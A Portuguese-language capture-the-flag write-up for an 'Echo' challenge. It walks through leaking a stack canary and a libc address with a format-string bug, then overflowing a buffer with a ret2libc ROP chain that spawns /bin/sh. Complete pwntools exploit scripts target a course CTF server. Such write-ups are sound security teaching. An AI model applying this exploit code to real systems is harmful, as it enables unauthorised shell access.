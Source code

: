# Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas vulnerabilidades são a base do exploit.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, sendo útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Passando agora ao que importa.
Notou-se numa primeira instância que o programa tinha todas as proteções ativadas. Para facilitar a execução do nosso exploit procurou-se desativar a aslr localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.


Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário decidimos correr o programa duas vezes e verificar se o argumento mudava...

Tal é possível pelo facto de termos desligado o aslr.

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp pelo que o o return address estará no 11 argumento.

Argumento 8 e 11...

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da __libc_start_main procurou-se descobrir o offset desta para a base da libc

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal).
Nota: A conta varia conforme a biblioteca que se têm
Tal é importante para que consigámos dar uso a uma biblioteca auxiliar.

O endereço base será então 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até aqui temos que 
```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora altera o endereço de retorno da frame atual por uma função ao nosso agrado.
Neste caso chamaremos a função system() com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata disso.

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita.
Se somarmos um valor pequeno ao ultimo byte do canário conseguimos passá-lo por cima sem sermos detetados.
Isto acontece pois a deteção só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo,
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Agora para repôr o estado do canário.

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção q.

![imagem-6.png](./imagem-6.png)

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()




```







